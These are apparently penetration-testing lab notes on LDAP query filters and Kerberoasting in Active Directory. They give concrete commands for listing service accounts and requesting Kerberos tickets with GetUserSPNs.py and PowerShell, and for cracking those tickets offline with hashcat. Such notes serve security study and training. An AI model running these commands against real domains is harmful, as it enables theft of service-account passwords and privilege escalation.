 OID match strings:

1. `1.2.840.113556.1.4.803`: For exact matches (useful for single attributes).
2. `1.2.840.113556.1.4.804`: For any match (useful for multiple attributes).
3. `1.2.840.113556.1.4.1941`: For Distinguished Name matches.

Usage example:
`dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)"`

* This queries for domain controller objects.

Logical operators like `&` and `!` and `|` can be used to join queries.

* e.g., `(&(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=64))`

## Kerberoasting

Kerberoasting targets Service Principal Name (SPN) accounts. In essence, these are domain accounts used for services, or service accounts.

* SPNs associate service instances with service accounts.

As long as we have valid credentials, we can retrieve TGS tickets for a service account using the SPN.

* Then, crack the ticket offline to get a cleartext password for the account (Note that the ticket is encrypted with the password hash).
* This is crucial as service accounts are usually highly privileged.

To do this, we need valid credentials (password/NT hash/TGT) and the IP of the DC.

### From Linux

We can use `GetUserSPNs.py`:

* List SPN accounts: `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend`
* Request TGS tickets: `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request`
* Request TGS ticket for specific account: `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev`

We can use the `-outputfile` option to write the TGS tickets to a file for cracking.

Once we have the TGS ticket, we can crack it using `hashcat` on mode 13100.

Verify the account permissions by using `crackmapexec`, `Pwn3d!` should appear to confirm that our account has local admin permissions.

### From Windows

#### Manual method

Using `setspn` and `mimikatz`.

Enumerate SPNs: `.\setspn.exe -Q */*`. Note that this gives computer accounts as well, which we want to ignore.

Request TGS tickets:

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
